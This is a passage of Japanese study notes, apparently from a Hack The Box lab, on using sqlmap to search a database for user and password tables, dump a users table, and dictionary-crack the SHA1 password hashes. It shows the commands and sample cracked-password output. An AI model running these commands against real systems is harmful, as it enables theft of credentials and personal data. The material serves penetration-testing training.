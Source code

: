 ```shell-session
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
```

### データの検索
- `--search オプション` : 大量のテーブル・カラムがあるとき、興味のある名前（例: user, pass）を検索できる
テーブル名に「user」が含まれるものを探す
```shell-session
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

カラム名に「pass」が含まれるものを探す
```shell-session
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

### パスワード列挙とクラック
- パスワードが保存されているテーブル（例：master.users）を見つけたら、通常通り --dump でダンプできる
```shell-session
snowyowl644@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

- SQLMapは、見つけた値がパスワードハッシュらしき形式だと自動的に検出し、辞書攻撃でクラックするか聞いてくれる
- 続けると、辞書攻撃でクラックを開始する
```shell-session
[14:31:41] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:31:41] [INFO] starting 8 processes 
[14:31:41] [INFO] cracked password '05adrian' for hash '70f361f8a1c9035a1d972a209ec5e8b726d1055e'                                                                                                         
[14:31:41] [INFO] cracked password '1201Hunt' for hash 'df692aa944eb45737f0b3b3ef906f8372a3834e9'                                                                                                         
...SNIP...
[14:31:47] [INFO] cracked password 'Zc1uowqg6' for hash '0ff476c2676a2e5f172fe568110552f2e910c917'                                                                                                        
Database: master                                                                                                                                                                                          
Table: users
[32 entries]
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| id | cc               | name              | email                       | phone        | address                | birthday          | password                                                    | occupation                                        |
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
```